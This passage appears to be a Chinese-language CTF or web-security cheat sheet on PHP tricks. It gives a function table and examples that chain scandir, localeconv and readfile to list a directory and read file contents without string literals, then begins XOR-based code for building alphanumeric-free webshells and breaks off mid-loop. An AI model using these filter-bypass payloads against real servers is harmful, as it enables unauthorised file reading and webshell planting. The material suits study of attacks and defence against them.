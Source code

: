 ```````
| tan()  | 正切 |
| floor()  | 舍去法取整 |
| sqrt()  | 平方根 |
| crypt()  | 单向字符串散列 |
| hebrevc  | 将逻辑顺序希伯来文（logical-Hebrew）转换为视觉顺序希伯来文（visual-Hebrew），并且转换换行符 |
| hebrevc(crypt(arg))[crypt(serialize(array()))] | 可以随机生成一个hash值 第一个字符随机是$(大概率)或者.(小概率)然后通过ord chr只取第一个字符 |
| ord()  | 返回字符串的第一个字符的ASCII码值 |

部分函数使用案例
```php
<?php
print_r(scandir(current(localeconv()))); // 查看当前目录有那些文件

// Array
// (
//     [0] => .
//     [1] => ..
//     [2] => info.php
//     [3] => test.php
// )

print_r(array_reverse(scandir(current(localeconv()))));   // 将数组反转

// Array
// (
//     [0] => test.php
//     [1] => info.php
//     [2] => ..
//     [3] => .
// )

print_r(array_reverse(scandir(current(localeconv())))[0]);  // 拿到指定的文件名

// test.php

print_r(readfile(array_reverse(scandir(current(localeconv())))[0])); // 输出文件内容

// <?php
// phpinfo();
// ?>

print_r(readfile(scandir(current(localeconv()))[2])); // 直接输出文件内容

// <?php
// phpinfo();
// ?>

?>
```
### 无字母数字webshell
#### 异或
实现代码
通过如下代码得到_GET字符的异或
```php
<?php
$l = "";
$r = "";
$argv = str_split("_GET");
for($i=0;$i<count($argv);$i++)
{
   for($j=0;$j<255;$j++)
   {
```````
